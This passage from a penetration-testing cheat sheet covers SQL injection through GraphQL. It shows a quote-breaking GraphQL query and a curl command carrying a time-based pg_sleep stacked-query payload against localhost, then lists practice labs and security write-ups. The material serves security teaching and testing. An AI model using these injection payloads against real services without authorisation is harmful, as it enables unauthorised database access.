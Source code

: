 ### SQL Injection

Send a single quote `'` inside a GraphQL parameter to trigger the SQL injection

```js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

Simple SQL injection inside a GraphQL field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

## Labs

- [PortSwigger - Accessing private GraphQL posts](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)
- [PortSwigger - Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)
- [PortSwigger - Finding a hidden GraphQL endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)
- [PortSwigger - Bypassing GraphQL brute force protections](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)
- [PortSwigger - Performing CSRF exploits over GraphQL](https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api)
- [Root Me - GraphQL - Introspection](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Introspection)
- [Root Me - GraphQL - Injection](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Injection)
- [Root Me - GraphQL - Backend injection](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Backend-injection)
- [Root Me - GraphQL - Mutation](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

## References

- [Building a free open source GraphQL wordlist for penetration testing - Nohé Hinniger-Foray - August 17, 2023](https://escape.tech/blog/graphql-security-wordlist/)
- [Exploiting GraphQL - AssetNote - Shubham Shah - August 29, 2021](https://blog.assetnote.io/2021/08/29/exploiting-graphql/)
- [GraphQL Batching Attack - Wallarm - December 13, 2019](https://lab.wallarm.com/graphql-batching-attack/)
- [GraphQL for Pentesters presentation - Alexandre ZANNI (@noraj) - December 1, 2022](https://acceis.github.io/prez-graphql/)
- [API Hacking GraphQL - @ghostlulz - Jun 8, 2019](https://medium.com/@ghostlulzhacks/api-hacking-graphql-7b2866ba1cf2)
- [Discovering GraphQL endpoints and SQLi vulnerabilities - Matías Choren - Sep 23, 2018](https://medium.com/@localh0t/discovering-graphql-endpoints-and-sqli-vulnerabilities-5d39f26cea2e)
- [GraphQL abuse: Bypass account level permissions through parameter smuggling - Jon Bottarini - March 14, 2018](https://labs.detectify.com/2018/03/14/graphql-abuse/)
- [Graphql Bug to Steal Anyone's Address - Pratik Yadav - Sept 1, 2019](https://medium.com/@pratiky054/graphql-bug-to-steal-anyones-address-fc34f0374417)
- [GraphQL cheatsheet - devhints.io - November 7, 2018](https://devhints.io/graphql)
- [GraphQL Introspection - GraphQL - August 21, 2024](https://graphql.org/learn/introspection/)
- [GraphQL NoSQL Injection Through JSON Types - Pete Corey - June 12, 2017](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/)